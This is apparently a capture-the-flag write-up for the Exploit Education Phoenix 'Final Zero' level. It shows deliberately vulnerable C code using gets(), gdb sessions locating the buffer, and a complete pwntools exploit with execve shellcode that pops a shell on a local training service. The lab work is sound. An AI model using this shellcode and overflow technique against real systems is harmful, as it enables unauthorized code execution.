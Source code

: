 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Final Zero"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *s);

/*
 * Read the username in from the network
 */

char *get_username() {
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if (q) *q = 0;
  q = strchr(buffer, '\r');
  if (q) *q = 0;

  /* Convert to lower case */
  for (i = 0; i < strlen(buffer); i++) {
    buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp) {
  char *username;

  printf("%s\n", BANNER);
  fflush(stdout);

  username = get_username();
  printf("No such user %s\n", username);
}
```

This level has a classic stack buffer overflow through **gets** function, so we inject our shellcode in the buffer then overflow the buffer and jump to our shellcode address, easy right :)

The problem here is the for loop that converts every character in our buffer to uppercase using **toupper** function, so our shellcode will be ruined.

If we look before the for loop we can see that the code terminates the buffer at any newline **\n** or carriage return **\r**.

If we enter a newline our input will terminate anyway so nothing to do here but the carriage return **\r** doesn't terminate the input, we can see the man page for **get**:

```
DESCRIPTION
       Never use this function.
       gets()  reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').
```

As we see **gets** will terminate the input on **'\n'** and **'\0'** only, great.

So the exploit here is to place our shellcode after **\r** with will be replaced by **'\0'** so that the for loop can't reach our shellcode (**strlen** stops at '\0').

```
$ gdb -q /opt/phoenix/amd64/final-zero 
Reading symbols from /opt/phoenix/amd64/final-zero...(no debugging symbols found)...done.

gef➤  disassemble get_username 
Dump of assembler code for function get_username:
.....
   0x00000000004007f2 <+37>:	lea    rax,[rbp-0x220]
   0x00000000004007f9 <+44>:	mov    rdi,rax
   0x00000000004007fc <+47>:	call   0x4005d0 <gets@plt>
   0x0000000000400801 <+52>:	lea    rax,[rbp-0x220]
.....

gef➤  b *0x0000000000400801
Breakpoint 1 at 0x400801

gef➤  r
Starting program: /opt/phoenix/amd64/final-zero 
Welcome to phoenix/final-zero, brought to you by https://exploit.education
AAAAAAAA
Breakpoint 1, 0x0000000000400801 in get_username ()

gef➤  x/xg $rbp-0x220
0x7fffffffe410:	0x4141414141414141
```

The buffer is at offset 0x220 = 544 bytes and it's at address **0x7fffffffe410**, great (not really).

If you tried to overwrite **RIP** with this address the exploit won't work so we should investigate more.

We need to debug the process we are sending the payload to instead of debugging locally, so we will open two terminals one for the connection and another for gdb.

```
# First Terminal:

$ nc localhost 64003
Welcome to phoenix/final-zero, brought to you by https://exploit.education
```

```
# Second Terminal:

$ ps aux | grep final
phoenix+ 14770  0.5  0.0    752     4 ?        Ss   18:55   0:00 /opt/phoenix/amd64/final-zero
user     14772  0.0  0.0   5136   984 pts/2    S+   18:55   0:00 grep final

$ sudo gdb -p 14770
Attaching to process 14770
Reading symbols from target:/opt/phoenix/amd64/final-zero...(no debugging symbols found)...done.

gef➤  b *0x0000000000400801
Breakpoint 1 at 0x400801

gef➤  c
Continuing.
```

Now enter some input in the first terminal like "AAAAAAAA".

```
Breakpoint 1, 0x0000000000400801 in get_username ()

gef➤  x/xg $rbp-0x220
0x7fffffffea60: 0x4141414141414141
```

As you can see the address of buffer if very far from our first address, offset between them = 0x7fffffffea60 - 0x7fffffffe410 = 1616 bytes.

So we will replace our **RIP** with an address close enough to **0x7fffffffea60** and we are done.

# Solution:

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

con = remote('localhost', 64003)
print(con.recvline())					# receive the greeting message

buff = ""
buff += 'A'*7 + '\r'					# JUNK
buff += '\x90'*200					# some NOPS
buff += shellcode					# our shellcode
buff += 'A' * (544 - len(buff))				# JUNK
buff += 'BBBBBBBB'					# RBP value
buff += p64(0x7fffffffea90)				# RIP value

con.send(buff)						# send the payload
con.interactive()					# interactive shell
```

```
$ python solve.py 
[+] Opening connection to localhost on port 64003: Done
Welcome to phoenix/final-zero, brought to you by https://exploit.education
[*] Switching to interactive mode

$ whoami
phoenix-amd64-final-zero
```